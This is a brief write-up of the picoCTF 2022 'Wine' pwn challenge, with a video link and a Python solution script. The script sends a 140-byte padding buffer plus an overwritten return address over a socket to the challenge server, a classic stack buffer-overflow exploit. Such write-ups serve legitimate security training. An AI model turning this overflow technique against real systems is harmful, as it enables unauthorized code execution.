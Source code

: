 ```yaml
---
name: Wine (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Wine (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=3713 "Pico CTF 2022: Wine")

## Description

> Challenge best paired with wine.

## Solution

```py
import socket

payload = b'A' * 140
payload += b'\x30\x15\x40'
print('payload = ' + str(payload))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('saturn.picoctf.net', 62461))
print(s.recv(1024))
print(s.send(payload + b'\r\n'))
print(s.recv(1024))
s.close()
```
